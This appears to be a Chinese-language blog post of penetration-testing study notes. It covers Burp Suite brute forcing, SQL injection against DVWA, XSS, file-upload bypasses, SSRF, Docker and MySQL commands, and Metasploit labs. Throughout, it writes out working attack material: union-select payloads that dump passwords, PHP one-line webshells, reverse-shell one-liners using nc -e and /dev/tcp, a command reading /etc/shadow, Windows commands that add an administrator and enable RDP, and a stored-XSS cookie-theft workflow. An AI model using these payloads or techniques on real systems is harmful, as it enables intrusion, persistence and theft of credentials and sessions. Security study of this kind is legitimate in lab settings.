 #+BEGIN_HTML
---
layout: post
title: 网络安全笔记
description: 网络安全学习笔记。
excerpt: ""
categories: 安全
tags: [Shell,Dos,PHP,Mysql]
---
#+END_HTML

* 网络攻防基本介绍
** 渗透测试分类
*** 黑盒测试
黑盒测试也称为功能测试，它是通过测试来监测每个功能是否都能够正常使用，在测试中，将程序看作
一个不能够打开的盒子，在完全不考虑程序内部结构和内部特性的情况下，在程序接口进行测试，它只
检查程序是否按照需求规格说明的规定正常使用，程序是否能够适当的接受输入数据而产生正确的数输
出信息。黑盒测试着眼于程序外部结构，不考虑内部结构，主要针对软件界面和软件功能进行测试。
*** 白盒测试
白盒测试称为结构测试或逻辑驱动测试，是一种测试用例使用方法，它从程序的控制结构导出测试用例。
*** 灰盒测试
灰盒测试是介于黑盒测试和白盒测试中间的一种测试，测试多用于集成测试阶段，不仅关注输入与输出
的正确性，同时也关注程序的内部情况。
* 渗透测试
** 术语
: 扫描 
: 木马、病毒 
: 黑帽子、白帽子 
: 社会工程学 
: 钓鱼
: poc、exploit
: WebShell
: DDoS
: ARP攻击
: 0day
** 常见攻击
: web:xss,csrf,提权逻辑错误
: DB:sql注入,漏洞利用
: 系统层:DDOS,远程溢出(MS08-067,MS10-020),rootkit,0day
: 网络层:DDOS,ARP欺骗
** 流程
: 信息收集->扫描探测->漏洞利用->通道控制->内网扩展->资料回传
** HTTP协议抓包工具
: Burp Suite
* Burp Suite使用
** Target
** Proxy
代理，正对目标主机进行数据转发及数据包抓取。
** Spider
爬虫，爬取网站信息。
** Scaner
漏洞扫描，查看网站中常见的可利用漏洞。
** Intruder
暴力破解流程:
: 1.打开数据包数据代理,在浏览器中打开网站登录界面,在Target中获取登录页面,发送至暴力模块.
: 2.在暴力模块中positions中清除所有标记,然后选择自己感兴趣的变量.
: 3.然后在暴力模块中选择payloads中选择所标记的变量及匹配方式.
: 4.导入准备好的字典文件,然后点击Start attack按钮进行暴力破解.
* HTTP协议
** http协议请求类型
: GET：请求指定页面内信息，返回实体主体
: POST：请求服务器所接受指定的文档作为对所标识的URl的新的从属实体
: PUT：从客户端向服务器传送的数据取代指定的文档的内容
: DELETE：请求服务器删除指定的内容
: HEAD：只请求页面的首部
: OPTIONS：允许客户端查看服务器的性能
** http状态码
: 1xx-提供信息
: 2xx-请求被成功提交
: 3xx-客户端被重定向到其它资源
: 4xx-请求错误
: 5xx-服务器错误

* DVWA暴力破解
** 暴力破解定义
*** 常见分类
: 1.本地程序类 本地游戏等(IDA、Uedit32、ollydbg反汇编)
: 2.远程服务类 OA系统等(利用密码字典,穷举法猜出用户口令)
: 3.MD5等加密串暴力破解
*** 暴力破解DVWA
在使用burp suite时可以根据http状态码,长度及返回信息中的关键字信息来确认是否暴力破解成功,然
后使用匹配成功的帐号去登录系统.
*** 万能密码
*** sql注入破解密码

* SQL注入
** mysql修改密码
: mysqladmin -u root -p password "123456"; //在操作系统中
: update user set password=password("123456") where user='root'; //在数据库中
: update user set authentication_string=password("123456") where user='root'; //在5.7及以上的版中使用
:
: 如果忘记密码时，则可以跳过权限检查，然后在执行上面mysql中的命令
: service mysql stop
: mysql_safe --skip-grant-table &
: 执行修改后，重启服务即可
** sql注入类型
: 按照提交方式 get post cookice
: 按照数据库类型：php+mysql asp+access jsp+oracle
: sql注入分为显注和盲注
: 联合注入 //
: 报错注入 //http://192.168.1.117/index2.php?name=admin'and (updatexml(1,concat(0x5e24,(select user()),0x5e24),1)) and '
: 整型参数，字符，字符须注意单引号闭合
** 注入方式
: 手动注入
: 利用sqlmap工具
** sqlmap常用命令
: sqlmap -u url --dbs //爆数据库
: sqlmap -u url --current-user //爆当前用户
: sqlmap -u url --user //查看用户权限
: sqlmap -u url --tables -D 数据库 //爆表段
: sqlmap -u url --columns -T 表段 -D 数据库 //爆字段
: sqlmap -u url --dump -C 字段 -T 表段 -D 数据库 //猜解
** 手动注入以DVWA为例
: order by: 表序列
: union select: 联合查询
: 猜测当前数据库中表的个数：1' order by 3 # //当数目超过表个数之后数据库会返回错误信息
: 1' union select 1,version() # //查询数据库版本
: 1' union select 1,database() # //查询数据库名称
: 1' union select 1,user()# //查询用户
: 1' union select 1,password from users # //查询数据库中所有用户密码
: 1' union select user,password from users # //查询数据库中所有用户及密码，如下图

[[file:{{site.url}}/assets/images/security/sqlinjection.png]]
** SQLserver开启xp_cmdshell功能
首先，需要上传简单木马，可以通过菜刀连接到服务器，获取网站的配置文件中关于数据库帐号信息，
然后配置菜刀中数据库的相关参数，再执行如下命令之后就可以开启服务器中的shell功能，我们可以
尝试执行一些系统的命令。
: EXEC sp_configure 'show advanced options',1 RECONFIGURE  //打开数据库高级功能
: EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE //打开xp_cmdshell功能
: exec master..xp_cmdshell "whoami" //执行命令
** mysql数据库结构
: information_schema
: mysql 用户 权限等运行所需信息 mysql.user
: load_file
: load_data
: secure_file_priv 5开始需设定这个值并且有高权限，file权限，读写绝对路径文件。
: select [content] into file/dumpfile [path] //file会做特殊字符转移，dumpfile不会做转移
* 文件包含
** php中常用四个文件包含函数
: include()
: include_once()
: require()
: require_once()
包含类型分为本地包含和远程包含
: 本地包含：http://192.168.1.103/www/vulnerabilities/fi/?page=02.php
: 远程包含：http://192.168.1.103/www/vulnerabilities/fi/?page=http://192.168.1.103/php.ini
** php伪协议
: php://filter //例如：http://45.76.206.86:10000/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=file1.php
: php://input
: Zip://
: Phar://
: Rar://
* XSS漏洞攻击
** xss反射型
手动测试
: <script>alert(1)</script> //反弹信息
: "><script>alert(/xss/)</script>
: "onclick="alert(/xss/)</script>
** 同源策略
: 同协议 http https
: 同域名
: 同协议
: X-Frame-Option DENY //不允许嵌入iframe标签
** xss存储型攻击
存储在数据库中，当页面每次加载数据库中的信息时，将之前插入数据库中的javascript语句进行执行
并展示给用户。
首先找一个有xss漏洞的网站，在XSS平台上注册一个帐号，生成一个攻击模板，然后使用这个模板的短
网址复制到输入框中，将这个连接提交存储到数据库中，成功之后，用户每次访问数据库中的这条数据
时，就会将用户的cookie信息上传到服务器中，这样我们使用上传的地址及cookie信息登录到系统中。

#+CAPTION: 在xss平台生成模板得到短地址
[[file:{{site.url}}/assets/images/security/shorturl.png]]

#+CAPTION: 查看获取的信息
[[file:{{site.url}}/assets/images/security/getinfo.png]]

#+CAPTION: 使用老兵进行系统登录
[[file:{{site.url}}/assets/images/security/laobin.png]]

当自己有服务器时，我们可以在自己的服务器上放一个攻击脚本及信息收集脚本，然后，在其它有xss
漏洞的网站上上传我们的服务器脚本连接至数据库中，这样当正常用户访问页面时，加载我们的连接脚
本后，可以将用户的cookie及浏览url等信息上传至我们的服务器中，我们可以根据此信息，在浏览器
中使用插件，将自身的cookie修改问其他正常用户的cookie信息，这样我们就可以达到，使用他人信息
登录网站的目地。

** DOM型xss攻击
: \\x3Cscript\\x3Ealert(document.domain)\\x3CScript\\x3E
: \\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
** php防御
: htmlentities($input) //输出原有字符，不出现弹窗
:
: <?php
: $input=$_GET['input'];
: echo $input; //直接输入alert即可
:
: <?php
: $input=$_GET['input'];
: echo htmlentities($input); //无法注入
:
: <?php$input=$_GET['input'];
: echo '< img src='.htmlentities($input).'>';  //input=123 onclick=alert(123)
:
: <?php$input=$_GET['input'];
: $input=str_replace('=','',$input);
: echo '< img src='.$input.'>'; //?input=w><script>alert(123)</script>
:
: <?php
: $input=$_GET['input'];
: //$input=str_replace(' ','',$input);
: $input=str_replace('=','',$input);
: echo '< img src='.htmlentities($input).'>'; //无法注入
:
: DOM型XSS
: <?php
: $input=$_GET['input'];
: $input=str_replace('=','',$input);
: echo '<script>var a="'.htmlentities($input).'";document.write(a);</script>';
: //?input=\x3Cscript\x3Ealert(1234565)\x3C/script\x3E可以绕过防御
* 文件上传漏洞攻击
** 文件上传JS验证
1、在点击上传文件之前，首先F12打开源代码文件，将上传按钮中关于上传文件格式检查的函数取消，
这样可以绕过文件类检查，将目标文件上传至网站中。

#+CAPTION: 取消文件名称检查
[[file:{{site.url}}/assets/images/security/cancelcheck.png]]

2、将可利用的代码写至图片文件中，依然使用图片文件后缀名文件进行上传文件，在点击上传的同时
开启burp suite进行数据抓包操作，将抓到的数据包中将文件名的后缀改成php等服务器可以识别的文
件名，这样就可以使用菜刀等软件实现攻击网站的目地。

#+CAPTION: 使用ubrp suite进行文件名称修改
[[file:{{site.url}}/assets/images/security/modname.png]]

3、将可利用代码写至图片中的方法
: cat caidao.php >> caidao.jpg //Windows
: copy /b caidao.php+caidao.jpg caidao.jpg //Linux

** 文件上传MIME验证
修改数据包中Content-Type的值，修改为网站允许的类型后就可以上传文件，对应php中$_file[]的值。

#+CAPTION: 修改Content-Type值
[[file:{{site.url}}/assets/images/security/uploadmime.png]]

** 服务端扩展名验证
1、将后缀名进行大小写更改进行尝试
2、将后缀名添加其它字符进行上传尝试，如:file.php1
3、白名单无法绕过，Php phtml php3 php5 php7
4、黑名单，php phtml php5 (.user.ini .htaccess配置文件，改变服务器对文件解析方式，任意文件
包含，更改后实时生效）auto_append_file包含在文件头部，auto_prepend_file包含在文件结尾
5、将文件后缀名称之后添加"点空格[. ]"这样可以绕使用windows文件系统特性绕过安全检查
** 文件内容更改
在文件名称及文件类型正常的情况下，我们可以更改文件中的内容从而绕过服务器对上传文件的验证。
将脚本文件中内容追加到图片中，服务器在验证图片信息时仅仅查看文件的头部信息，对其后面的数据
信息并不进行判断，应此我们可以使用此方法将可执行代码上传至服务器。

#+CAPTION: 更改文件中内容
[[file:{{site.url}}/assets/images/security/uploadneirong.png]] 

* CSRF攻击
根据用户修改页面的源码生成一个csrf脚本，当用户点击这个新生成的脚本时，就可以在数据库中更改
密码。

#+CAPTION: csrf攻击脚本
[[file:{{site.url}}/assets/images/security/csrf.png]]

* SSRF
** php
: url_init()
: http:://[address]
: file://[127.0.0.1]/etc/passwd
: gopher://   --redis 未授权访问
: dict://127.0.0.1:22  探测端口号
: parse_url:使用file绕过parse_url
* 攻防
一、防护
1、修改已知帐号密码，数据库，windows管理员密码
2、尽快发现自己的一些漏洞、木马、备份文件，系统安装文件、危险端口如445
3、实时关注常用服务日志
二、攻击
1、扫描端口、寻找敏感端口，nmap、御剑2014
2、扫描网站目录，使用御剑
3、爆破常用服务(21,22,3389.3306,1433)
* php相关
** 回调函数
: call_user_function('system','ls')
: system exec shell_exec passthru popen pcntl_exec
** php脚本函数执行
: <?php  
: $a='a';
: $b='b';
: $c="$a+${$b}";
: $e=phpinfo();
: $h=system('cat /etc/shadow');
: $f="${${system('ls /tmp')}}"
: $d="${${phpinfo()}}";
: echo $c;
: ?>
** 一句话木马
: assert($_GET[pass]); //?pass=system('ls')
: $_GET[a](S_GET[b]); //?a=assert&b=phpinfo() ?a=system&b=ls
: $s=$_GET['a']; eval("\a = \"$a\";");
: call_user_function($_GET[a],$_GET[b]); 回调函数
* JAVA
** 备份
: 备份源码、数据库
** 修改口令
: 系统密码
** 扫描服务
: netstat -ano ps -aux nmap -p- x.x.x.x
** 加固
: web:
: cms 后台管理修改路径,更改为一个不可攻击的页面
** struts2
: 057
: 052
* Docker使用
** docker基本命令
: docker pull ubuntu 下载镜像
: docker run --name host_name -itd -p 0.0.0.0:80:80 -v /var/www/thml:/root ubuntu bash 创建容器
: docker ps 查看运行中的容器
: docker ps -a 查看所有容器
: docker start/stop/restart [container] 启动/停止/重启
: docker rm -f 删除容器(-f运行中容器)
: docker rmi 删除镜像
: docker save -o test.tar test 打包镜像
: docker load < test.tar 导入镜像
** docker给运行中的容器添加映射端口
1、将容器的8000端口映射到dokcer主机的8001端口
: docker inspect webapp | grep IPAddress
: iptables -t nat -A DOCKER -p tcp --dport 8001 -j DNAT --to-destination x.x.x.x:8000
2、方法2
: docker commit containerid foo/live 提交一个运行中的容器为镜像
: docker run -d -p 8000:80 foo/live /bin/bash 运行镜像并添加端口
** Docker remote api
docker remote api是一个取代远程命令行界面的Rest api。启动docker remote api方式如下:
: dockerd -H unix:///var/run/docker.sock -H tcp://0.0.0.0:5678
执行开机启动
: #vi /etc/sysconfig/docker
: other_args = " -H unix:///var/run/docker.sock -H tcp://0.0.0.0:5678"
: #service docker restart
docker验证配置
: #docker -H localhost:5678 version
** Dcos
dcos自动部署docker软件。
* Mysql使用
** mysql常用命令
: show databases; 查看数据库
: show tables; 查看数据库中表
: use database_name; 选择数据库
: select user(); 查看当前用户信息
: select database(); 查看当前数据库
: select schema(); 查看当前数据库
: select user,host,password from mysql.user; 查询信息
: update user set password=password('12') where user='jsf'; 更改密码
: flush privileges; 刷新-更改系统配置之后
: desc table_name;查看表结构
: select 查询
: update 更新
: insert into 插入数据
: delete 删除某条数据
: drop 删除表 删除数据库
: create 新建表 新建数据库
: alter 更改表
: grant 设置用户权限或新建用户 （需要更新权限 flush privileges）
: create database test; 穿件数据库
: grant all privileges on weixin.* to jsf1@'%' identified by '123456'; 创建用户及授权
: grant select on dvwa.* to 'test'@'localhost' identified by 'test'; 分配dvwa数据库查询权限给test用户
: show variables; 查看系统变量
** sql注入
1、空格绕过
: %0a %0b %a0 %09
: ()
: `
: +select+user+from`information_schema`.`schmata`where mysql特殊字符后面可以跟关键字
2、php过滤单引号双引号
: $id=mysql_real_escape_string($id)
: 在sql语句中必须对变量使用引号，否则此过滤失效。
* 在信息安全中常用工具
** wireshark使用
1、wireshark数据包及关键字查询
: http.request.method==POST && http contains sgctf
: http.request.method==POST && http contains ctf
: http.request.method==POST && http contains flag
: http.request.method==GET && http contains sgctf
: http.request.method==GET && http contains ctf
: http.request.method==GET && http contains flag
** 查看文件的md5值
1、linux系统下
: md5sum file_name
2、windows系统下
: certutil -hashfile filename MD5
: certutil -hashfile filename SHA1
: certutil -hashfile filename SHA256
** http流量
在http流量收集及攻击中我们会用到很多有用的工具如：Burp Suite、arpspoof、driftnet、sslstrip
等。
: arpspoof:可以用来在局域网中进行arp攻击
: driftnet:获取数据包中的图片，同时也支持抓取音频文件
*** http PUT方法
采用put方法可以上传非法文件及修改文件名称。
: 补丁更新
: 服务关闭(webDAV)
** 操作系统
1、在操作系统方面常用的工具有:nmap、tcpdump、wireshark、zmap、ettercap、metasploit等。
nmap使用(Winpcap)：
: nmap -sn ip 开机状态
: nmap -sP ip 通过Ping测试
: nmap -Pn ip 监测全部端口
: nmap -P0 ip 直接进行扫描
: nmap -sN ip 执行tcp空扫描欺骗防火墙
: nmap -p ip 指定端口，多个之间使用逗号隔开
: nmap -O ip 识别远程操作系统
2、命令行注入利用到的字符串
: "&" and "&&"
: may be "|" or "||"
** 数据库
数据库安全性测试过程中常用工具有sqlmap等
** 文件分析软件
对于非文本文件(jpg)的查看不能使用常用的文本编辑器，而是需要特殊的软件去分析文件中所隐含的
信息，如使用hexdump、od我们可以查看到一些有用的信息。
* 常用中间件管理地址及默认帐号及漏洞利用
以下服务中可以通过默认帐号或者直接上传，我们已经制作好的后门war文件。
** windows常用命令
: net user add likaikai 123456 /add //添加用户
: net localgroup administrators likaikai /add  //添加到管理员组
: query user //查询在线用户
: logoff id //剔除在线用户，可以登录远程桌面
: REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f //CMD开启查看3389端口 免重启 开启3389
: start \\192.168.1.136\c$\Windows\ //当攻防时，为防止对方发现自己使用远程登录系统，则可以使用这个命令来访问对方文件
** Weblogic
: url: http://localhost:7001/console
: username: weblogic
: password: weblogic123
** Tomcat
: tomcat path:/usr/local/tomcat
: url: http://localhost:8080
: username: admin
: password: 123
: 在极端情况下可以删除manager目录，从而web管理界面无法打开，需要重启服务
:
: CVE-2017-12615 tomcat 8.5.19 put 漏洞，由conf/web.xml->readonly引起，设置为True即可解决问题
: burp中put文件，PUT /jsf.jsp/ HTTP/1.1然后写上文件内容即可。
** Jboos
: url: http://localhost:8080
** IIS漏洞使用
在上传文件中，在文件名称中添加asp/file.jpg后，就可以以php的方式去运行这个jpg文件，这样我们
就可以上传后门代码值服务器。
* 日志分析
查看分析常见操作系统及中间件日志文件，apache日志、IP、时间、请求资源及方式、http状态码，
tomcat等软件。
* 工具使用实验
** nc软件使用
1、Windows nc反弹cmdshell
: nc -lvp 8080 //本地执行
: nc -e cmd.exe dest_ip 8080 //服务器执行
2、Linux nc反弹shell
: nc -lvp 8080 //本地执行
: /bin/bash -i >& /dev/tcp/dest_ip 8080 0>&1 //服务器执行
** 通过mysql服务向web目录读写文件
通过暴力破解获取远程mysql服务器登录权限，在数据库权限足够高的情况下可以读写网站的相关文件。
: select 'test string' into outfile 'C:\www\jsf.php';
: select load_file('C:\www\jsf.php');
** IIS put漏洞使用
我们可以使用工具去扫描网站是否支持http put方法，如果检测发现能够使用put方法，我们就可以针
对服务器进行进一步的攻击，我们可以上传恶意文件，然后可以进行修改文件信息等的操作。首先如图，
我们针对目标服务器进行扫描。

#+CAPTION: 进行服务器put扫描
[[file:{{site.url}}/assets/images/security/putscanner.png]]

扫描到可以使用的put服务器之后，我们进一步针对某个页面查看，这个页面支持那些http方法，如图

#+CAPTION: 查看页面option
[[file:{{site.url}}/assets/images/security/httpoption.png]]


然后，在本地准备一个名称jsfput.txt的文本文件，其中文件的内容为：

#+CAPTION: 服务器上传脚本文件内容
[[file:{{site.url}}/assets/images/security/aspscript.png]]

接着在工具中我们选择使用put方法，将本地制作好的文件上传到服务器中，如图

#+CAPTION: put文件至服务器
[[file:{{site.url}}/assets/images/security/putfile.png]]

再使用move方法，将我们已经上传至服务器中的文件进行文件名称更改

#+CAPTION: 脚本文件名称修改
[[file:{{site.url}}/assets/images/security/filemove.png]]

名称修改成功之后，我们可以在菜刀软件中可以添加服务器中的脚本文件路径，并且在密码输入框中输
入我们在脚本文件中定义好的密码字符，在下面选择相应的服务器执行语言后，点击添加，最后我们右
键新输入的条目，就可以选择相应的功能。如文件浏览，虚拟终端等。

#+CAPTION: 将已攻击的网站信息添加到菜刀软件中
[[file:{{site.url}}/assets/images/security/caidao.png]]

#+CAPTION: 浏览网站文件
[[file:{{site.url}}/assets/images/security/caidaofile.png]]


** Metasploit 渗透Windos7
使用metasploit可以方便的进行渗透实验，我们可以在kaililinux操作系统中使用已经安装好的工具
metasploit来对某些主机进行渗透实验，在本实验中我们选择一台主机作为被攻击对象，首先使用工具
nmap来查看目标主机开发了那些服务，然后我们就可以针对开启的服务进行选择性的攻击。

#+CAPTION: 扫描端口
[[file:{{site.url}}/assets/images/security/nmap.png]]

我们可以从中发现在目标主机中开启了445端口，然后我们可以针对这个漏洞做一些操作，按照下面的
步骤我们就可以进入远程主机。

#+ATTR_HTML: :width 85%
#+CAPTION: 设置
[[file:{{site.url}}/assets/images/security/use.png]]

#+CAPTION: 设置远程主机
[[file:{{site.url}}/assets/images/security/setRhost.png]]

#+ATTR_HTML: :width 85%
#+CAPTION: 开始进行渗透
[[file:{{site.url}}/assets/images/security/exploit.png]]

经过上面的操作我们可以看到kalilinux已经和目标主机之间建立了通行，接下来我们就可以查看目标
主机的信息并且获取目标主机shell权限来执行一些脚本。

#+CAPTION: 查看系统信息
[[file:{{site.url}}/assets/images/security/sysinfo.png]]

#+CAPTION: 执行脚本
[[file:{{site.url}}/assets/images/security/script.png]]
** .cgi为文件后缀名漏洞使用
如果发现网站上有.cgi为后缀名称的文件时，我们可以尝试使用反弹shell利用，在本机执行如下两条
命令之后，我们就有可能获取到服务器的shell权限。

#+CAPTION: 打开本地监听端口
[[file:{{site.url}}/assets/images/security/ncshell.png]]

#+ATTR_HTML: :width 85%
#+CAPTION: 漏洞利用远程主机连接至本地监听
[[file:{{site.url}}/assets/images/security/cgishell.png]]
** jboss java反序列化工具使用
当我们发现在服务器上使用了jboss软件服务时，我们就可以尝试使用这个工具去尝试对网站进行一些
信息的收集、命令执行及webshell上传等操作。

#+CAPTION: jboss java反序列化软件使用

[[file:{{site.url}}/assets/images/security/jbossjava.png]]



#+BEGIN_HTML
<!-- more-forword -->
#+END_HTML


#+BEGIN_HTML
<!-- more -->
#+END_HTML
